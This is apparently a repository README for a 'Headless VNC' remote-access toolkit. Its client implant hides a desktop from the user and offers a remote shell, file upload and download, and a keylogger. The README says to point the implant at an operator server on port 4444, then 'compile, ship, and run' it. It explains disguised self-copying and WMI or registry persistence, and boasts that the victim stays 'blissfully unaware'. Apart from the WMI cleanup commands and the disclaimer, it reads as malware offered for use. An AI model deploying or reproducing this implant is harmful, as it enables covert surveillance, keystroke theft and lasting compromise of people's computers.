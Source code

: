 # Headless VNC (HVNC) Toolkit

> A **stealth-first** remote-administration framework that spins up an invisible Windows desktop in memory and lets you drive it like a regular VNC session—only without the tell-tale screen flicker or user-side pop-ups.  
> Built for red-team operators who need *eyes-on-glass* access with the subtlety of a ghost.

---

## Repository Layout

| Path     | Role | Notes |
|----------|------|-------|
| **`server/`** | Server-side component | Accepts inbound HVNC tunnels, multiplexes sessions, prints each connection in its own console |
| **`client/`** | Client implant | Creates the hidden desktop, hooks keyboard / mouse, relays frames & input events |

> ⚠️ *Every new connection opens in a **separate console window***—handy for parallel ops and clean log separation.

---

## Supported Commands

| Constant | Action |
|----------|--------|
| `CMD_START_EXPLORER`     | Launch **Windows Explorer** explorer.exe |
| `CMD_START_RUN`          | Open the classic **Run / cmd prompt** cmd.exe |
| `CMD_START_CHROME`       | Launch **Google Chrome** |
| `CMD_START_EDGE`         | Launch **Microsoft Edge** |
| `CMD_START_BRAVE`        | Launch **Brave** |
| `CMD_START_FIREFOX`      | Launch **Mozilla Firefox** |
| `CMD_START_IEXPL`        | Launch **Internet Explorer** |
| `CMD_START_POWERSHELL`   | Open **PowerShell** |
| `CMD_SHELL_OPEN`         | Begin an **interactive remote shell** |
| `CMD_SHELL_COMMAND`      | Send a command to a shell already open |
| `CMD_FILE_LIST`          | Enumerate **files / folders** in a directory |
| `CMD_FILE_DOWNLOAD`      | **Download** a file from the remote box |
| `CMD_FILE_UPLOAD`        | **Upload** a file to the remote box |
| `CMD_KEYLOGGER_START`    | Start keylogging |
| `CMD_KEYLOGGER_STOP`     | Stop keylogging |

---

## Getting Started

1. **Server**

   ```
   cd server
   python server.py
   The script will prompt for a **listening port** — use the same port as the client build.
   ```

2. **Client**

   *Edit* `client/main.cpp` – set:

   ```cpp
   constexpr auto HOST = "YOUR_SERVER_IP";
   constexpr uint16_t PORT = 4444;  // same as the server prompt
   ```

   Then compile, ship, and run.
   On first launch, the implant copies itself to:

   ```
   %LOCALAPPDATA%\Microsoft\Win32Components\
   ```

   and auto-starts at logon:

   * Admin → WMI subscription
   * Standard user → Run registry key

---

## Testing & Cleanup

Need a sterile host after the demo? Use the included PowerShell helper:

``
Remove artifacts, folders, autoruns
client\clean.ps1
```

### Manual WMI Check / Removal

```
Get-WmiObject -Namespace root\subscription -Class __EventFilter `
  -Filter "Name='Microsoft_Win32Filter'" | ForEach-Object { $_.Delete() }

Get-WmiObject -Namespace root\subscription -Class CommandLineEventConsumer `
  -Filter "Name='Microsoft_Win32Consumer'" | ForEach-Object { $_.Delete() }

Get-WmiObject -Namespace root\subscription -Class __FilterToConsumerBinding `
  | Where-Object { $_.Consumer -match 'Microsoft_Win32Consumer' } `
  | ForEach-Object { $_.Delete() }
```

**Verify all gone:**

```
Get-WmiObject -Namespace root\subscription -Class __FilterToConsumerBinding `
  | Where-Object { $_.Consumer -match 'Microsoft_Win32Consumer' } `
  | Format-List Filter, Consumer
```

---

## Why HVNC?

Traditional VNC mirrors the users active desktop—any mouse wiggle or window pop-up is visible. Headless VNC instead:

1. Creates a brand new, invisible desktop WinSta0\HVNC in memory.
2. Runs spawned processes inside that hidden session completely off-screen.
3. Streams the pixels or GDI diffs back to the operator with negligible latency.
4. Leaves the real user blissfully unaware—no taskbar flashes, no window focus steals.

In short: you get a **full UI foothold** with the stealth of a backdoor shell.

---

## OPSEC Highlights

* **Console-per-session** → easy kill-switch & minimal cross-noise.
* **Auto-persistence** adapts to privilege level WMI vs. registry.
* **Keylogger** runs in-process no DLL drop on disk.
* **WMI cleanup script** shipped for safe red-team eject.

Yes, theres more on the roadmap: TLS tunneling, clipboard sync, multi-monitor capture watch the commits!

---

## 🚫 Disclaimer

This repository is provided for **educational purposes only** and intended for **authorized security research**.
Any **unauthorized use**—including but not limited to illicit surveillance, system compromise, or privacy invasion—is **strictly prohibited**.


